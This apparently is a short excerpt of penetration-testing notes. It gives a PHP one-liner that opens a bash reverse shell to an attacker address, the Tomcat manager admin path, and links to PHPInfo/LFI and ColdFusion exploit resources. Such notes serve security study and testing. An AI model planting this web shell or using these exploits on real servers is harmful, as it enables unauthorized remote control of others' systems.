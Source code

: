 `<?php echo shell_exec('/bin/bash -i >& /dev/tcp/10.11.0.52/443 0>&1'); ?>`

*phpinfo*

- https://github.com/D35m0nd142/Kadabra/blob/master/phpinfo.py
- [PHP : Winning the race condition vs Temporary File Upload - PHPInfo() exploit  · GitHub](https://gist.github.com/intrd/35483ae252c66ee3d11f7acfa7379749)
- https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

## tomcat

admin UI - `/manager/html/`

## Coldfusion

- [[TUTORIAL] ColdFusion Exploit - Hack Big Sites With Ease! | UltimatePeter.com](https://ultimatepeter.com/tutorial-coldfusion-exploit-hack-big-sites-with-ease/)
- [ColdFusion 8.0.1 Arbitrary File Upload and Execute | Rapid7](https://www.rapid7.com/db/modules/exploit/windows/http/coldfusion_fckeditor)
- https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf
- https://security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf
